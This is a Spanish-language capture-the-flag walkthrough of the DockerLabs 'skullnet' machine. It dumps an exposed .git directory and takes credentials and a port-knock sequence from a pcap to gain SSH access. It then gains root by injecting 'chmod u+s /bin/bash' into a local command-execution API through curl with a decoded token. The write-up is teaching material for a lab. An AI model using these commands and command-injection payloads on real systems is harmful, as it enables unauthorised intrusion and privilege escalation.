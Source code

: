 nmap: 80

![image](https://github.com/user-attachments/assets/bbbb702f-524b-4b3b-9c7e-66352f5a510b)

---
agregamos "skullnet.es" en nano /etc/host y entramos a la pagina
![[dockerlabs/dificil/skullnet/pagina principal.png]]
no hay nada, hacemos un nmap mas profundo en el puerto 80
da un git. quedaría así la búsqueda: http://skullnet.es/.git/
![[nmap2.png]]

quedamos donde hay muchos archivos y nos pasamos los archivos a nuestra terminal
![[pagina2.png]]
lo pasamos con: 
> wget -r http://skullnet.es/.git/

hacemos un "git log" para ver los archivos modificados y da dos:
> fix y First commit

hacemos un: git checkout -- . 

hacemos otra vez el "git log" y nos copiamos esto: 
>648d951e0f8b7cc60b11c82d9328fe9cb1a4a53d

![[gitlog.png]]

colocamos:
>git reset 648d951e0f8b7cc60b11c82d9328fe9cb1a4a53d

y nos da: 

     - Unstaged changes after reset:
     - D authentication.txt
     - D network.pcap

colocamos "git diff" y vemos los cambios que se han realizado

volvemos hacer un "git checkout -- ." y tenemos los archivos

entramos al authentication.txt y nos da:

     - cat authentication.txt 
     - Hello skulloperator, as you know, we are implementing a new authentication mechanism to avoid brute-forcing...
     - This credential and the attached network file will be enough. I know you will get it ;)
     - +%7nj^g!DQxp]a>c4v&0

el final del resultado de esos paso: 
![[resultado1.png]]

la ultima es una posible contraseña, pero igual tenemos el archivo de red adjuntado que es el "network.pcap" que es un wireshark
lo abrimos: wireshark network.pcap

abrirá wireshark con las reglas capturadas y las revisaremos

las primeras 5 peticiones son mas color gris y hace peticiones en los puertos:
> 1000, 12000, 5000, 22 y 38118
![[wire.png]]

como el puerto 22 esta cerrado hacemos un: 

     knock -v 172.18.0.2 1000 12000 5000 -d 4

se abrirá el puerto 22 y tenemos el usuario como contraseña que menciono antes: 
> skulloperator / +%7nj^g!DQxp]a>c4v&0

y estamos dentro
![[proceso1.png]]
ahora escalamos

al hacer un sudo -l o find, no muestra nada

al hacer un "ps -faux" muestra que se ejecuta un "cron -P" donde se ejecuta un archivo : 
>bin/sh -c python3 /var/www/skullnet.es/skullnet_api.py
![[psaux.png]]

ingresamos a la ruta, entramos con nano al skullnet_api, pero no tenemos permisos de escritura pero si de lectura

dentro muestra que se abre un puerto 8081 que dentro se pueden ejecutar comando como "ls" o "whoami" y para que funcione se tiene que mandar un token de autorización que nos permita ejecutar y dentro hay una "AUTH_KEY_BASE64 = "d2VfYXJlX2JvbmVzXzUxMzU0NjUxNjQ4NjQ4NA=="
"
![[nano1.png]]

lo sacamos con:

    echo 'd2VfYXJlX2JvbmVzXzUxMzU0NjUxNjQ4NjQ4NA=' | base 64 -d 

>nos da: we_are_bones_513546516486484  
![[base1.png]]

en el código aparece que hay que iniciar con una palabra que comience por "basic"

ejecutamos el comando:

    curl 127.0.0.1:8081?exec?=whoami -H "authorization: Basic we_are_bones_513546516486484"

ahora en el terminal victima hacemos un: 
 
    curl 127.0.0.1:8081?exec=whoami -H "Authorization: Basic we_are_bones_513546516486484"

>que nos mostrara: root
![[root1.png]]

seguimos probando aparte del whoami, mandamos un id para esta pagina: https://www.urlencoder.org/

quedaría: whoami%3Bid

y ahora quedaría así: 

    curl 127.0.0.1:8081?exec=whoami%3Bid -H "Authorization: Basic we_are_bones_513546516486484"

que nos da los grupos con el id
![[grupo1.png]]

ya que funciona le intentamos dar permisos así:
> whoami;chmod u+s /bin/bash

y quedaría así el código: 

    curl 127.0.0.1:8081?exec=whoami%3Bchmod%20u%2Bs%20%2Fbin%2Fbash -H "Authorization: Basic we_are_bones_513546516486484"

lo lanzamos aparece solo root, vemos si cambio los permisos 
> ls -ls /bin/bash

ahora aparece en rojo, lanzamos un bash -p
![[rootfinal.png]]
y somos root! 

